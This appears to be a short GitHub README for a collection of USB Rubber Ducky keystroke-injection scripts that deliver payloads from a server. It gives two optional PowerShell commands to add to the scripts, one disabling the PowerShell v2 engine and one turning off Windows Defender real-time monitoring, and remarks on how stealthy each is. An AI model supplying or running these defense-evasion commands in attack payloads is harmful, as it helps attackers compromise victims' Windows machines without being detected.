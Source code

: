 # ducky_scripts
Random ducky scripts that have been pulled together.
--more to be added later.

Delays should be modified if you are running on a slow system or your payload is from a slow server.
# optional
Add these to the script to disable powershell v2 engine protections and windows defender realtime protection, This is less stealthy since the user might be warned of windows defender being disabled.

Disable-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2Root
Set-MpPreference -DisableRealtimeMonitoring $true
